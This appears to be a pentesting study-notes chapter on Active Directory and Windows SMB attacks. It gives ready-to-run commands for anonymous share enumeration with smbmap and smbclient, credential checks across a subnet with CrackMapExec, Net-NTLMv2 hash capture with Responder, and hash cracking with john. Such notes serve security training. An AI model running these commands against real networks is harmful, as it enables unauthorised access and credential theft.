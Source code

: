 # Active Directory & Windows Manes {-}

## Interesting Windows ports {-}

- 139 NetBIOS session service
- 445 Server Message Block **SMB**
- 1433 ms-sql

> [!] NOTE: NetBIOS session service facilitates authentication aross a windows workgroup or domain and provides access to resources (such as files and printers) 

## Map SAMBA exposed shared resources with smbmap {-}

```bash
smbmap -H 10.10.10.10 -u " " -p " "
```

## SMB connection with smbclient {-}

```bash
smbclient //10.10.10.10/<READ ONLY Desired resource>
```

> [!] NOTE: smbclient don't provide you a shell but a tool. **get filename.txt** allows you to download a resource if you are connected


## Enumerate machines by SAMBA with crackmapexec {-}

**CrackMapExec** (a.k.a **CME**) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.

```bash
cme smb 192.168.0.0/24
```

If we have credentials of a user, and this one have admin priviledges on machines, You can use **CrackMapExec** to check those priviledges.
If it's the case, you will see a (Pwn3d!) in the result.

```bash
cme smb 192.168.0.0/24 -u 'user' -p 'password1'
```


## Sniffing traffic for SAMBA Relay with responder {-}

When SAMBA is created, by default SAMBA cert is not signed. That means that by default it's not possible to validate the origin legitimity. 
In this case Attacker can use tools like responder in order to sniff SAMBA communication traffic.

```bash
cd /usr/share/responder
# config file is in Responder.conf
python3 Responder.py -I eth0 -rdw
```

As soon as a connection is launched, you can see the communication. And because the SAMBA is not signed you can then get the **Hash Net-NTLMv2** of the user.

```r
knitr::include_graphics("images/ad-hashnetntlmv2.png")
```

What attacker can do with this hash?

1. copy hashes in a file (*hashes*)
1. bruteforce hashes file with john
    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes
    ```
